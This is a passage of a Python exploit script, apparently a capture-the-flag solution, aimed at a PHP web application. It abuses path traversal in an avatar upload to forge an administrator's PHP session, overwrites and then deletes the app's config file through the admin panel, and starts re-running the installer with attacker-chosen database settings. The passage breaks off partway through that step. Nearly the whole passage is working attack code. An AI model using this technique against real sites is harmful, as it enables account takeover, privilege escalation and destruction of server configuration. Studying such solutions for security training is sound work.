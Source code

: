 ```python
        "password": password,
        "confirmpass": password,
    }
    sess.post(f"{SERVER}/auth/register", data=data)


def login(sess, username, password):
    sess.get(f"{SERVER}/auth")
    data = {
        "username": username,
        "password": password,
    }
    sess.post(f"{SERVER}/auth/login", data=data)


adminUsername = "".join(random.choices(string.ascii_letters, k=10))
adminPassword = "rmb1222"
adminSess = requests.session()
register(adminUsername, adminPassword)
login(adminSess, adminUsername, adminPassword)

sessPath = adminSess.cookies["PHPSESSID"]
newAvatar = f"../../tmp/{sessPath[0]}/{sessPath[1]}/{sessPath[0:3]}cb478171476a1dbcec5ffdef658c4"

file = {'uploadname': (newAvatar, open('test.png', 'rb'))}
adminSess.post(f"{SERVER}/userinfo", files=file) 

adminSess.cookies["PHPSESSID"] = f"{sessPath[0:3]}cb478171476a1dbcec5ffdef658c4"  # now you are admin
print(adminUsername)
print(newAvatar)

# ------------
dummyUsername = "".join(random.choices(string.ascii_letters, k=10))
dummyPassword = "rmb1222"
dummySess = requests.session()
register(dummyUsername, dummyPassword)
login(dummySess, dummyUsername, dummyPassword)

newAvatar = "../../conf/app.conf"
file = {'uploadname': (newAvatar, open('temp', 'rb'))}
dummySess.post(f"{SERVER}/userinfo", files=file)
print(dummyUsername)

# ------------
res = adminSess.get(f"{SERVER}/admin")
reg = fr"{dummyUsername} \(UID: ([0-9]{{0,}})\)"
uid = re.findall(reg, res.text)
print(uid)
uid = uid[0]
adminSess.get(f"{SERVER}/admin/user/del/{uid}") # delete app.conf
# ------------


# ------------ overwirte it
res = adminSess.get(f"{SERVER}/install")
print(res.text)
data = {
    "host": "your server ip",
    "port": "port",
    "username": "root",
    "password": "rmb122",
    "database": "123",
```
